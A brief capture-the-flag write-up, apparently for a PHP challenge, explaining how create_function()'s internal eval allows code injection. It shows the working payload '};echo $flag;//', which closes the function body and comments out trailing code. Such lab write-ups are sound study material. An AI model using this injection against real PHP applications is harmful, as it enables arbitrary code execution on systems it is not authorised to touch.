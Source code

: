The PHP create_function() documentation clearly states the problem, when creating this function there is an internal eval that runs.

I first tried passing ```echo $flag``` but that didn't work, because the eval is ran internally and doesn't run the function itself.

So I just escaped it:

```};echo $flag;```

But that didn't work, so I just added // to the end to comment anything that would give me a syntax exception:
```};echo $flag;//```